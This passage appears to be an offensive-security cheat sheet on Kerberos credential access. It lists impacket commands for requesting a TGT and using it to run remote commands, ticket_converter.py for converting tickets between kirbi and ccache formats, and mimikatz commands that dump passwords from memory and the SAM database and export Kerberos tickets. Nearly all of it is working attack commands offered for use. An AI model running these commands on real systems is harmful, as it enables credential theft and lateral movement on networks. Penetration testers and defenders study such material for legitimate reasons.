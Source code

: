 ## Request the TGT with password
- `python getTGT.py <domain_name>/<user_name>:[password]`

## Set the TGT for impacket use
- `export KRB5CCNAME=<TGT_ccache_file>`

### Execute remote commands with any of the following tools by using the TGT
> search for psexec.py, smbexec.py or wmiexec.py

---

# ticket_converter.py
- service: kerberos
- tactics: credential_access

## convert tickets between linux / windows format
[ticket_converter.py](https://github.com/Zer1t0/ticket_converter):

- `python ticket_converter.py ticket.kirbi ticket.ccache`
- `python ticket_converter.py ticket.ccache ticket.kirbi`

### to use ticket 
> search for gettgt.py 

---

# mimikatz
- service: kerberos
- tactics: credential_access

## enable log
- `log filename.log`

## enable debug mode
- `privilege::debug`

## dump passwords from memory
- `sekurlsa::logonpasswords`

## dump passwords from sam database
- `lsadump::sam /system:f:\SYSTEM /sam:f:\SAM`

## export tickets
- `sekurlsa::tickets /export`
